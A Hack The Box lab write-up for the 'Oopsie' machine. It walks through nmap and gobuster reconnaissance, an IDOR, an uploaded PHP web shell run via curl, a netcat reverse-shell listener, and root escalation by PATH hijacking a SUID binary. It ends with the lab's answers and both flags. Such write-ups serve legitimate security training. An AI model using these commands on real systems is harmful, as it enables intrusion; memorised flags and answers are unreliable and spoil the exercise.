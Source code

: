 ```yaml
---
layout: single
title: Oopsie - Hack The Box
excerpt: "In this machine, we are exploiting an IDOR with RCE. With respect to privilege escalation, we are taking advantage of leaked credential files and exploiting SUID files through PATH Hijacking."
date: 2025-03-16
classes: wide
header:
  teaser: /img2/oopsie.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Very Easy
tags:
  - IDOR
  - RCE
  - SUID
  - PATH Hijacking
---
```





![](/img2/Pasted%20image%2020250313133322.png)

## Introduction

> In this machine, we are exploiting an IDOR with RCE. With respect to privilege escalation, we are taking advantage of leaked credential files and exploiting SUID files through PATH Hijacking.

## Reconnaissance

- Connectivity

```bash
ping -c1 10.129.72.77
```

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.129.72.77
```

![](/img2/Pasted%20image%2020250313133514.png)

- Fuzzing with gobuster

```bash
gobuster dir -u megacorp.com -w /usr/share/wordlists/dirb/common.txt -t 100
```

![](/img2/Pasted%20image%2020250313141255.png)

- Intercept trafic with burpsuite

![](/img2/Pasted%20image%2020250313141418.png)

- Access to login pannel

![](/img2/Pasted%20image%2020250313141733.png)

## Exploitation

- Exploit IDOR

![](/img2/Pasted%20image%2020250313142251.png)

> Change id to 1

- Change cookie session in upload directory

![](/img2/Pasted%20image%2020250313142420.png)

![](/img2/Pasted%20image%2020250313142821.png)

- Upload php malicious file

```bash
echo "<?php system(\$_GET['cmd']); ?>" > cmd.php
```

![](/img2/Pasted%20image%2020250313143019.png)

- Execute command

```bash
curl http://megacorp.com/uploads/cmd.php?cmd=whoami
```

![](/img2/Pasted%20image%2020250313143251.png)

- Send reverse shell

![](/img2/Pasted%20image%2020250313144230.png)

```bash
nc -nlvp 9000
```

## Post-exploitation

- TTY 

https://invertebr4do.github.io/tratamiento-de-tty/

- Find user flag

![](/img2/Pasted%20image%2020250313144611.png)

- Find credentials file

![](/img2/Pasted%20image%2020250313150431.png)

- Change to robert user

![](/img2/Pasted%20image%2020250313150547.png)

- Find SUID files 

```bash
id
```

![](/img2/Pasted%20image%2020250316161355.png)

```bash
find / -perm -4000 -group bugtracker -ls 2>/dev/null
```

![](/img2/Pasted%20image%2020250316161459.png)

- Review /usr/bin/bugtracker

```bash
strings /usr/bin/bugtracker
```

![](/img2/Pasted%20image%2020250316162159.png)

- Exploit PATH Hijacking

```bash
export PATH=/tmp/:$PATH
echo "bash -p" > cat
chmod +x cat
/usr/bin/bugtracker
```

![](/img2/Pasted%20image%2020250316162516.png)

```bash
cat /root/root.txt
```

![](/img2/Pasted%20image%2020250316162908.png)

## Tasks

1. With what kind of tool can intercept web traffic?
> proxy

1. What is the path to the directory on the webserver that returns a login page?
> /cdn-cgi/login

1. What can be modified in Firefox to get access to the upload page?
> cookie

1. What is the access ID of the admin user?
> 34322

1. On uploading a file, what directory does that file appear in on the server?
> /uploads

1. What is the file that contains the password that is shared with the robert user?
> db.php

1. What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?
> find

1. Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?
> root

1. What SUID stands for?
> Set Owner User ID

1.  What is the name of the executable being called in an insecure manner?
> cat

1.  Submit user flag
 > f2c74ee8db7983851ab2a96a44eb7981

1.  Submit root flag
> af13b0bee69f8a877c3faf667f7beacf


![](/img2/Pasted%20image%2020250316163513.png)
